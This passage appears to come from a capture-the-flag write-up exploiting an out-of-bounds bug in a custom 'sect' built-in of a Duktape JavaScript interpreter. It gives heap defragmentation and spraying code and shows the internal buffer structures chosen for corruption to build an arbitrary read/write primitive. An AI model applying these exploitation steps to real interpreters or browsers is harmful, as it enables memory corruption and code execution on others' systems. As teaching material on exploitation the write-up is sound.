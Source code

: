 Therefore, if you allocate a TypedArray of a size less than 31337 and you call the `sect` built-in on it, you'll be able to read and write out-of-bounds in the heap-memory.

With this limited out-of-bounds read/write primitive we can then find a suitable object in the heap to corrupt and create a fully controlled read/write-what-anywhere primitive.

## Part I - Code-exec in the sandboxed JS-interpreter process
### Create a fully controlled read/write-what anywhere primitive
To achieve our wanted primitive, theres a bit of work to be done.

First we do some minor spraying with small TypedArrays on which we trigger the vuln to create the limited out-of-bounds-primitive. Then we spray some larger potential targets where we set their data to magic values so we can find them in the heap using our OOB-read.
``` js
/* defrag the heap */
for(i = 0; i < pwn.defrag_heap_rounds; i++) {
  f = new Float64Array(4);f[0] = 1111.4444;f[1] = 2222.5555;
  pad.push(f);
}

/* spray duk_hbufobj and duk_hbuffer objects via Float64Arrays*/
for(i = 0; i < pwn.spray_rounds; i++) {
  var p = new Float64Array(4);p[0]=1337.0;p[1]=4445.0;
  p.sect(); /* trigger vuln */
  spray.push(p);
  var q = new Float64Array(200);q[0]=6661.6661;q[1]=1116.1116;
  targets.push(q);
}
```
My target of choices for corruption was a `duk_hbuffer` object since these are conveniently created and used by TypedArrays.
``` c
struct duk_hbuffer {
  duk_heaphdr hdr;
  duk_size_t size;
  void *curr_alloc; 
  ...
```
Each `duk_hbuffer` object is referenced by a `duk_hbufobj` object
``` c
struct duk_hbufobj {
  duk_hobject obj;
  duk_hbuffer *buf; /* points to duk_hbuffer */
  duk_hobject *buf_prop;
  duk_uint_t offset;       /* byte offset to buf */
  duk_uint_t length;       /* byte index limit for element access, exclusive */
  duk_uint8_t shift;       /* element size shift:
                            *   0 = u8/i8
                            *   1 = u16/i16
                            *   2 = u32/i32/float
                            *   3 = double
                            */
  duk_uint8_t elem_type;   /* element type */
  duk_uint8_t is_typedarray;
  ...
```
